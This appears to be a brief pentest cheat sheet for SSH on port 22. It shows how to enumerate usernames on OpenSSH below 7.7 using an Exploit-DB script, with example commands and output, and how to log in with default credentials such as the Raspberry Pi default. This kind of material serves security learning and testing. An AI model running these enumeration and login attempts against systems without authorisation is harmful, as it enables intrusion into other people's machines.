 # 22, SSH

## Username enumeration
If the SSH version is OpenSSH < 7.7 you can enumerate users on the machine. 

### Exploit
https://www.exploit-db.com/exploits/45233

### Example command
```
$ python 45233.py --port [port] --username [username] [IP]
```

### Example output
```
$ python 45233.py --port 22 --username root 10.10.10.10
root is a valid user!

$ python 45233.py --port 22 --username james 10.10.10.10
james is not a valid user!
```

## Default credentials
There could be accounts on the machine that have default credentials.

### Example command
```
$ ssh pi@rasp-pi.local
 (password: raspberry)
```
Example default credentials can be found here:
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt
